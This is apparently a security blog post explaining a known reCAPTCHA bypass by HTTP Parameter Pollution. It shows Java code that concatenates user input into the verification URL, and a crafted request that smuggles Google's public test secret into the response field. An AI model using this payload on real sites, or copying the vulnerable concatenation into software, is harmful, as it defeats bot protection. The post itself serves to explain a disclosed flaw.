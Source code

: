 ```yaml
---

layout: post
title: Leveraging HTTP Parameter Pollution to Bypass reCAPTCHA
tags: [Cyber News]

---
```


## Background

reCAPTCHA is a Google service that allows web applications to present some challenges to the users to protect the web application against bots. When the web application wants to challenge the user, Google provides a set of images and uses JavaScript to show them in the browser. The user then solves the CAPTCHA and an HTTP request is sent to the web application which looks something like:
```
POST /verify-recaptcha-response HTTP/1.1
Host: vulnerable-app.com

recaptcha-response={reCAPTCHA-generated-hash}
```

The application then verifies the response with a request to Google's reCAPTCHA API with a request shown below:
```
POST /recaptcha/api/siteverify HTTP/1.1
Content-Length: 458
Host: www.google.com
Content-Type: application/x-www-form-urlencoded

recaptcha-response={reCAPTCHA-generated-hash}&secret={application-secret}
```

In this request, the hash of the user's response `reCAPTCHA-generated-hash` is sent along with the verification secret for identifying the web application `application-secret`. And google verifies the request by the web application and if the response is correct, it generates an HTTP response which looks something like this:
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 90

{
  "success": true,
  "challenge_ts": "2018-01-29T17:58:36Z",
  "hostname": "..."
}
```

For testing new features on a new web application, Google has provided an automated of disabling reCAPTCHA verification. For this, the developers can use the hard-coded site and secret key as shown below:
```
Site key: 6LeIxAcTAAAAAJcZVRqyHh71UMIEGNQ_MXjiZKhI
Secret key: 6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe
```

This will come in handy for generating the payload.

## HTTP Parameter Pollution
Supplying multiple HTTP parameters with the same name might cause a web application to interpret values in an unanticipated way and this effect can then be exploited by an adversary to bypass some implemented security mechanism. Such an approach is called as HTTP Parameter Pollution.

## The Attack
IF the web application that needs to be bypassed is vulnerable to HTTP Parameter Pollution and looks something like the example shown below, then a carefully crafted request can be used to bypass reCAPTCHA.
```
private String sendPost(String CaptchaResponse, String Secret) throws Exception {

    String url = "https://www.google.com/recaptcha/api/siteverify"+"?response="+CaptchaResponse+"&secret="+Secret;
    URL obj = new URL(url);
    HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();
```

The exploit can be constructed as shown below:
```
POST /verify-recaptcha-response HTTP/1.1
Host: vulnerable-app.com

recaptcha-response=anything%26secret%3d6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe
```

Here we can see that the attacker has carefully constructed the reCAPTCHA response in such a way that the `anything` corresponds to a placeholder, `%26` is an URL encoded ampersand character, `secret` represents the parameter that needs to be injected, `%3d` is an URL encoded equals sign and `6Le...JWe` is the key that disables reCAPTCHA for any web application. Another thing to note here is that Google's reCAPTCHA API only looks at the first `secret` parameter value and ignores any other secret value that follows. So, when the attacker sends a specific crafted request to the web application, it sends the following HTTP request to the reCAPTCHA API.
```
POST /recaptcha/api/siteverify HTTP/1.1
Host: www.google.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Python-urllib/2.7

recaptcha-response=anything&secret=6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe&secret=6LeYIbsSAAAAAJezaIq3Ft_hSTo0YtyeFG-JgRtu
```

As specified above, only the first secret is used by the reCAPTCHA API and the following response is sent every time.
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 90

{
  "success": true,
  "challenge_ts": "2018-01-29T17:58:36Z",
  "hostname": "..."
}
```

This response will be processed by the web application and the user is always granted access to the web application.

---

## References
\[1\] Riancho A., "reCAPTCHA Bypass via HTTP Parameter Pollution".<br />

[1]: https://andresriancho.com/recaptcha-bypass-via-http-parameter-pollution/ "reCAPTCHA Bypass via HTTP Parameter Pollution"

---
